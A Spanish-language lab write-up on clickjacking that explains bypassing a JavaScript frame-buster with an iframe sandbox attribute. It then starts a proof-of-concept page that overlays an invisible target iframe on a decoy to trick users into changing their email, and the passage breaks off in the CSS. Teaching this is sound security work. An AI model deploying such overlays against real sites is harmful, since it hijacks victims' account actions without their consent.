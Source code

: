 Aquí vemos que hay un código JavaScript que **verifica si la ventana actual es la principal (top)**.

Si **no está en la ventana superior**, **bloquea el contenido** para evitar ser cargado en un iframe. **Esta técnica se llama “Frame busting”.**

Para **evadirla**, podemos usar el atributo **sandbox** de HTML5:

```html
<iframe src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

Si **omitimos** `allow-top-navigation` pero permitimos `allow-forms` o `allow-scripts`, **el frame buster no puede verificar si está en top**, quedando neutralizado.

Con esta técnica, podemos **crear un sitio falso que engañe al usuario para que actualice su email al hacer clic en "Click me"**.

Para **prellenar la dirección de email**, simplemente usamos un **parámetro GET**: `email`.

<figure><img src="../../.gitbook/assets/image (1498).png" alt=""><figcaption></figcaption></figure>

```
<html>
    <head>
        <style type="text/css">
            #targetWebsite {
                position:relative;
                width:700px;
                height:700px;
                opacity:0.0001;
                z-index:2;
            }

            #decoyWebsite {
                position:absolute;
                top:450px;
                left:75px;
```